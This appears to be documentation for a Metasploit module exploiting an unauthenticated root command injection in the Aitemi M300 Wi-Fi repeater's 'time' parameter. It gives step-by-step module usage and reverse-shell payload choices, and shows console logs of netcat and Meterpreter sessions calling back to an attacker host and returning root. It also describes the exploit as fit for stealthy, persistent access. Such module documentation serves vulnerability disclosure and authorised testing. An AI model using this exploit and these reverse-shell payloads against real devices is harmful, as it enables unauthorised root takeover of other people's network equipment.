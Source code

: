 ## Vulnerable Application

This Metasploit module exploits an **unauthenticated OS command injection** vulnerability
in the **Shenzhen Aitemi M300 Wi-Fi Repeater (hardware model MT02)**.

The vulnerability exists in the `time` parameter of the `time_conf` function, accessible via the `/protocol.csp` endpoint.
When passed to the backend, the parameter is inserted directly into a `date -s` shell
command without sanitization, allowing arbitrary command execution as **root**.
The exploit does **not require authentication**, **does not reboot the device**,
and **does not affect network configuration**, making it suitable for stealthy, persistent access.

The vulnerability is tracked as **CVE-2025-XXXXX**.

### Setup

Purchase the vulnerable device here:
[https://www.aliexpress.us/item/3256806767641280.html](https://www.aliexpress.us/item/3256806767641280.html)

Ensure the repeater is accessible via its management interface (typically `http://192.168.11.1` when connected locally via Wi-Fi).

## Verification Steps

1. Connect to the repeater's Wi-Fi and obtain its IP (usually `192.168.11.1`).
2. Launch **Metasploit Framework**.
3. Use the module:
```
use exploit/linux/http/aitemi_m300_time_rce
```
4. Set the target IP:
```
set RHOSTS [TARGET_IP]
```
5. Choose the appropriate target:
```
set TARGET 0        # For simple reverse shell (netcat)
set TARGET 1        # For Meterpreter payload (may crash HTTP server)
```
6. Execute the exploit:
```
run
```

## Options

None

## Scenarios

### Scenario 1 – Target 0: Unix Reverse Shell (netcat)

```bash
msf6 exploit(linux/http/aitemi_m300_time_rce) > show targets

Exploit targets:
=================

    Id  Name
    --  ----
=>  0   Unix Command Shell (reverse_netcat)
    1   Linux Meterpreter MIPSBE (MAY crash HTTP worker)


msf6 exploit(linux/http/aitemi_m300_time_rce) > set payload cmd/unix/reverse_netcat
payload => cmd/unix/reverse_netcat
msf6 exploit(linux/http/aitemi_m300_time_rce) > run http://192.168.11.1
[*] Started reverse TCP handler on 192.168.11.208:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Favicon hash matched – likely Aitemi M300 device
[+] HTTP server version matched: lighttpd/1.4.32
[+] HTML fingerprint matched in home.html – UI strings detected
[+] The target is vulnerable. HTML language markers confirmed
[*] Command shell session 4 opened (192.168.11.208:1337 -> 192.168.11.1:58090) at 2025-08-07 01:02:06 +0200

id
uid=0(root) gid=0(root)
uname -a
Linux Srepeater 4.4.194 #0 Fri Jun 30 03:16:53 2023 mips GNU/Linux
ls -l
drwxr-xr-x    2 root     root           775 Sep 25 23:32 bin
drwxr-xr-x    3 root     root           860 Sep 25 23:32 dev
drwxrwxr-x    1 root     root             0 Sep 25 23:33 etc
drwxr-xr-x   11 root     root           441 Sep 25 23:32 lib
drwxr-xr-x    2 root     root             0 Sep 25 23:32 media
drwxr-xr-x    2 root     root             3 Sep 25 23:32 mnt
drwxr-xr-x    5 root     root             0 Sep 25 23:32 overlay
dr-xr-xr-x   58 root     root             0 Jan  1  1970 proc
drwxr-xr-x   17 root     root           235 Sep 25 23:32 rom
drwxr-xr-x    2 root     root             3 Sep 25 23:32 root
drwxrwxr-x    2 root     root           707 Sep 25 23:32 sbin
dr-xr-xr-x   11 root     root             0 Jan  1  1970 sys
drwxrwxrwt   16 root     root           500 Sep 25 23:33 tmp
drwxr-xr-x    7 root     root            89 Sep 25 23:32 usr
lrwxrwxrwx    1 root     root             4 Sep 25 23:32 var -> /tmp
drwxr-xr-x    1 root     root             0 Sep 25 23:32 webs
drwxr-xr-x    4 root     root            67 Sep 25 23:32 www
```

### Scenario 2 – Target 1: Meterpreter MIPSBE Payload

```bash
msf6 exploit(linux/http/aitemi_m300_time_rce) > set target 1
target => 1
msf6 exploit(linux/http/aitemi_m300_time_rce) > set payload cmd/linux/http/mipsbe/meterpreter/reverse_tcp
payload => cmd/linux/http/mipsbe/meterpreter/reverse_tcp
msf6 exploit(linux/http/aitemi_m300_time_rce) > run http://192.168.11.1
[*] Started reverse TCP handler on 192.168.11.208:1337 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Favicon hash matched – likely Aitemi M300 device
[+] HTTP server version matched: lighttpd/1.4.32
[+] HTML fingerprint matched in home.html – UI strings detected
[+] The target is vulnerable. HTML language markers confirmed
[*] Sending stage (1358312 bytes) to 192.168.11.1
[*] Meterpreter session 10 opened (192.168.11.208:1337 -> 192.168.11.1:41150) at 2025-08-07 01:12:10 +0200

meterpreter > sysinfo 
Computer     : Srepeater.lan
OS           :  (Linux 4.4.194)
Architecture : mips
BuildTuple   : mips-linux-muslsf
Meterpreter  : mipsbe/linux
meterpreter > getuid
Server username: root
meterpreter > 
```

